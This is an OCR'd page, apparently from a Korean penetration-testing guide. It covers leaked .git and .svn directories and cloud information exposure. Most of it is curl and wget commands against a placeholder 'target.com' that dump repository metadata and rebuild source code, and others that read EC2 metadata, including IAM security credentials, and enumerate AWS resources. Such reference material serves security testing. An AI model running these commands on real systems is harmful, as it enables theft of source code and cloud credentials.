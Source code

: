 #### 3.4.1. Git 정보 추출
```bash
# Git 설정 확인
curl http://target.com/.git/config

# 브랜치 정보
curl http://target.com/.git/HEAD
curl http://target.com/.git/refs/heads/master

# 커밋 로그
curl http://target.com/.git/logs/HEAD

# 파일 목록 (Git index)
curl http://target.com/.git/index

# 소스 코드 복원 스크립트
#!/bin/bash
# GitHack 도구나 직접 구현
mkdir git_dump
cd git_dump
wget -r -np -nH --cut-dirs=1 http://target.com/.git/
git fsck --full
git checkout -- .
```

#### 3.4.2. SVN 정보 추출
```bash
# SVN 엔트리 파일
curl http://target.com/.svn/entries
curl http://target.com/.svn/wc.db

# SVN 프로퍼티
curl http://target.com/.svn/dir-prop-base
curl http://target.com/.svn/all-wcprops
```

### 3.5. 클라우드 환경 정보 노출

#### 3.5.1. AWS 환경 정보
```bash
# EC2 메타데이터
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# S3 버킷 정보
curl http://target-bucket.s3.amazonaws.com/
curl http://s3.amazonaws.com/target-bucket/

# CloudFormation 스택 정보
aws cloudformation describe-stacks --stack-name target-stack

# Lambda 함수 목록
aws lambda list-functions --region us-east-1
```
